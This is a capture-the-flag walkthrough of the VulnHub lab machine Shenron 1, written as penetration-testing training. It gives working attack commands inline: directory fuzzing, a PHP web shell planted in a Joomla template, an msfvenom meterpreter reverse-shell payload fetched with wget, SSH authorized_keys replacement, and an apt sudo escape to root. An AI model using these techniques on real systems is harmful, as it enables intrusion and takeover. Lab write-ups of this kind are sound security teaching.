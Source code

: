 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-08-30 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [vulnhub, writeup, shenron, machines, pentest]   
author: christ
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) Metasploit Framework<br>
### Environment Set up
A successful penetration tester is organised. Organisation facilitates documentation and makes our progress easily trackable. So to stay organised in this workshop we will create a directory tree to keep track of our progress. A good description of the use of each directory can be found Here.
![Working Dir](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform this using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```
![Service Scan](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH server and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache
![Wep App Index Page](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In the real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing here using **ffuf** it can be done using your tool of preference.
Command used: ```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br>
![Directory Fuzzing](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process can uncover two interesting directories which are *test* and *joomla*. The directory joomla already gives us a hint that the web application may be running the well-known CMS Joomla. Let's browse these directories chronologically as they appeared during our fuzzing.
Browsing to the *test* directory we notice that directory listing is enabled which is a vulnerability in itself. We can note this vulnerability in our **Findings** folder. 
![Directory Listing](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

We can also see a file having an interesting name i.e. *password*, accessing the file from our command line reveals to us a pair of credentials belonging to a certain admin user.
![File Accessed](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember that we uncover credentials hidden in the comments of the password file so, let's try this credential against the Joomla instance to check if they are valid.
*NB: Login to the administrative interface on Joomla is done by default in the **administrator** directory.*
![Joomla Login](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
We can see that we successfully login as the admin. After a successful login, we move to Extensions -> Templates -> Templates were can now attempt to add a PHP shell to one PHP file in an unused template. Here, we will choose the protostar template and add our basic PHP shell ```system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name such as a hash for the GET parameter value. Anyone can access that file hence if a common name is used attackers may bruteforce it and also use it to establish their foothold in your client environment.*
![Template Modification](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying our template we can now execute commands on our target. ```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br>
![RCE Test](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br>
![Payload Crafting](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
Now after crafting our payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on our target to download to download the payload to the /tmp directory.
![Download Operation](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing our payload we need to configure our listener in Metasploit.
![Metasploit Set Up](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting our listener we can now give execution permission to our payload and execute it.
![Payload Execution](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Going back to the listener, we can see that we caught a shell.
![Catching Shell](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
After obtaining a shell as the web user it's a good habit to search for the *web.config* file in the web root directory which may contain credentials for the database user. In this machine the file is named **web.config.txt**, and reading its content reveals to us the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user **jenny** who is also a user on the target machine so let's try to authenticate as the user jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

We have identified that the user is susceptible to vulnerabilities arising from password reuse. With this password, we can directly try to identify if the user has any sudo rights.
![Sudo Right](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great we see that the user Jenny can perform copy operations by using Shenron identity. Since we observed an SSH service running during our service enumeration let's try to replace the SSH key of Shenron by using the privileges offered to us by the sudo command.
We can generate a key pair \(private, public\) on our attack host and upload the public key using the same method used above or upload it using our powerful meterpreter.
![SSH Key Gen](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key we can now replace the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo rights and then afterward attempting to use the private key to log in as Shenron
![SSH Key Replace](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
Great, we successfully logged in as Shenron we can now use this new account to read the user's flag and continue our enumeration of the system.
![User Flag](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string *password* in their names with the command ```find / -iname *password* 2>/dev/null``. We got a hit in the **/var/opt** directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum]()
We can now use that password to read Shenron's sudo rights
![Sudo Right]()
We can observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. Here the command ```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh``` can be used to obtain a root shell as demonstrated in the image.
![Root Access](https://github.com/ChristElise/christelise.github.io/blob/main/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png) 
Great we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Great, in this walkthrough we have learned how a simple file listing vulnerability could be used to take over a machine. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up the walkthrough.






